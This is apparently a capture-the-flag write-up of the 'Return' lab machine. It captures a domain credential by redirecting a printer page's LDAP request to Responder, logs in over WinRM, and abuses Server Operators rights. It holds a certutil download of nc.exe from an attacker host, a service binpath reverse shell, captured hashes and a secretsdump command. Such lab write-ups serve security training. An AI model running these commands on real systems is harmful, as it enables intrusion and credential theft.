# Return
## Summary
### System Information
```text
IP: 10.10.11.108
OS: Windows 10.0 Build 17763 x64
Hostname: PRINTER
Domain: return.local
```
### Credentials
```text
return\svc-printer:1edFg43012!!
```

### Hashes
```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32db622ed9c00dd1039d8288b0407460:::
return.local\svc-printer:1103:aad3b435b51404eeaad3b435b51404ee:c1d26bdcecf44246b5f8653284331a2e:::
```

## Enumeration
### Ports
```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-25 02:20:43Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped

```

## Writeup
### Foothold

Website being hosted on port `80`.



Settings page with some pre-filled information.



If we intercept the request using `Burp Suite` we can see it's hitting an `ip` specified in the web page.



Let's setup `responder` and set our local IP as the request IP.

```bash
sudo responder -I tun0
```

Now we can send the request again but replace `printer.return.local` with our local IP.

And we get an event on `responder`.




We can try using these credentials to login to the target via WinRM since it looks like it's open according to `crackmapexec`.

```bash
crackmapexec winrm return.htb -u svc-printer -p '1edFg43012!!'
```



We can use `evil-winrm` to get a shell.

```bash
evil-winrm -i return.htb -u svc-printer -p '1edFg43012!!'
```



### Privilege Escalation

Perfect, we now have shell access. Let's start enumerating the target.

```powershell
net users
```



```powershell
net groups
```



Nothing in particular stands out. The domain groups all seem to be default and there aren't any other users for us to pivot to.

Let's enumerate our user to determine what permissions we have and possible privilege escalation vectors.

```powershell
whoami /all
```



Interestingly our user is part of the `Server Operators` group.

After some [research](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) it looks like `Server Operators` are able to perform a number of administrative tasks on domain controllers. In particular they are able to start and stop services.

There's a section in [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services) for services. It looks like we could modify an existing service binary path.

```powershell
Get-Service
```



Unfortunately we don't have permissions to list all services. We are however able to check individual services. After a bit of research, there is a service which could work called `VSS (Volume Shadow Copy Service)`.



First we need to download `netcat` on the target, for this we can use `certutil`.

```powershell
cd c:\windows\temp
certutil -urlcache -split -f http://<LHOST>/nc.exe nc.exe
```

```bash
rlwrap nc -lnvp 9001
```

Now we can modify the `VSS` service.

```powershell
sc.exe config VSS binpath="c:\windows\temp\nc.exe <LHOST> <LPORT> -e powershell.exe"
sc.exe start VSS
```

And we get a shell!



We can also grab the target's hashes.

```bash
impacket-secretsdump 'svc-printer:1edFg43012!!@return.htb' -outputfile evidence/files/hashes.out
```